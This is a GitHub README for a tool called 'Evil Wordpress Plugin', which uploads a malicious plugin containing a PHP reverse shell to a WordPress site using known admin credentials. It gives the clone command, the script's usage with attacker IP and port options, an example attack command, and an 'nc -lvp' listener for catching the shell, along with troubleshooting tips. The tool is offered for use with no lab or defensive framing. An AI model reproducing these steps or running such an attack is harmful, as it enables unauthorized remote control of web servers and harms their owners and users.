
# Evil Wordpress Plugin (Malicous)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password.

Install by running:

```bash
  git clone https://github.com/JoaoPedroMoreira02/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

Help section (-h)

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```

Attacking the Target Website: 

```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

Executing Handler

```bash 
nc -lvp {LOCAL PORT}
```

The script will automatically give you the connection. 

***---> In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program <---***

***---> If the upload is still failing, check if the target user has Administrator permissions <---***
 
***---> Correct Syntax: http://target.com/wordpress | Wrong syntax: http://target.com/wordpress/ <---***

## 

- ***This script is set to create a reverse shell for Linux systems, but you can change it for Windows environments***




